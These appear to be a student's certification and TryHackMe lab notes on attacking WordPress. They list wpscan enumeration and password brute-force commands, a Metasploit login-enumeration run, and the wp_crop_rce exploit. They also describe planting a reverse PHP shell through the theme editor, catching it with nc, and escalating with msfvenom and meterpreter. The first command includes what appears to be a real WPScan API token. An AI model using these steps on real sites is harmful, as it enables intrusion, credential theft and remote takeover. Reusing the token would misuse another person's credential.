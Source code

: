 ```bash
wpscan --url www.smol.thm --api-token yg4YrQ4pQrDlTeKFuODoAoLGhIUDaQCohPU4G4cAheA -e
wpscan --url http://wpscan.thm/
wpscan --url http://example.com/ceh --enumerate u
wpscan --url http://wpscan.thm/ --plugins-detection aggressive/passive #anyone
wpscan --url http://example.com/ceh --enumerate p
wpscan --url http://example.com/ceh --enumerate t #speed up the process
wpscan --url http://example.com/ceh --enumerate vp #enumurates vulnerable plugins 
# Direct crack if we have user/password details 
wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt 
wpscan --url <http://example.com/ceh> --enumerate vp #enumurates vulnerable plugins
```
Using Metaspoilt msfdb init && msfconsole msf 
```Metasploit
use auxiliary/scanner/http/wordpress_login_enum 
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100 msf auxiliary(wordpress_login_enum) > set targeturi /wordpress msf auxiliary(wordpress_login_enum) > set user_file user.txt msf auxiliary(wordpress_login_enum) > set pass_file pass.txt msf auxiliary(wordpress_login_enum) > exploit
```

```
## **`WORDPRESS`** EJPT NOTES

exploit/multi/http/wp_crop_rce

we found ==wp-config.php== file which give other login cred aswell

May be pasword of blly joel

[https://www.poplabsec.com/how-to-attack-wordpress-website/](https://www.poplabsec.com/how-to-attack-wordpress-website/)

logged in as admin and searched windows/linux reverse php shell

dashboard=appearance=theme file editor=404.php page

pasted windows reverse shell.php code and **`change IP address`**

started **`nmap nc -lvnp 9000`**

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/272c99bf-b353-4e45-a07f-42dcb1dd067c/9e518517-8843-44c7-9707-ad8d52da588a/Untitled.png)

once php shell is obtained, create msfvenom reverse tcp and use meterpreter and transfer and run.

BINGO got reverse shell and now get those hashes..

**`wp-config.php` always check**
``` 

labs: THM
```
wpscan --url www.smol.thm --no-update -e vp,vt,tt,cb,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive -f cli-no-color 2>&1 | tee "/root/Desktop/THM/smol/results/10.10.127.188/scans/tcp80/tcp_80_http_wpscan.txt"
```
